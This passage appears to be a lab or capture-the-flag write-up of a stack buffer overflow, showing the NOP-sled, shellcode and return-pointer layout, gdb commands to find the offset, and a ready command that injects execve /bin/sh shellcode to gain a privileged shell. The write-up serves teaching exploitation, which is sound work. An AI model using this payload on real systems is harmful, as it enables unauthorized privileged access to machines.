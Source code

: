 It works. If we make this return address that direct to a shell code we will probably get a shell.
Found a shellcode code which has of `-p` `bash -p` -p Turned on whenever the real and effective user ids do not match. Disables processing of the $ENV file and importing of shell functions. Turning this option off causes the effective uid and gid to be set to the real uid and gid.
https://shell-storm.org/shellcode/files/shellcode-607.html
Exploit structure:
NOP CODE + SHELLCODE + POINTER
NOP Size = 132 - size of(SHELLCODE) 
Pointer Size = 4 and initial value was dummy
 The shell code
```bash
\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
```
Exploit Structure
'\x90' * (132-57) + Shellcode + Dummy Pointer with size of 4 (\x98\xd2\xff\xff)
Here the 'x90' is a NOP character means it is Non-operational character which just move the operation to next value.

```bash
 run $(python3 -c 'print(132*"A"+"BBBB")')
x/-50wx $esp

```

```bash
r `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x98\xd2\xff\xff"`
```
<img src="./img/Screenshot 2024-09-15 194808.png"></img>
```bash
 x/250x $esp
```
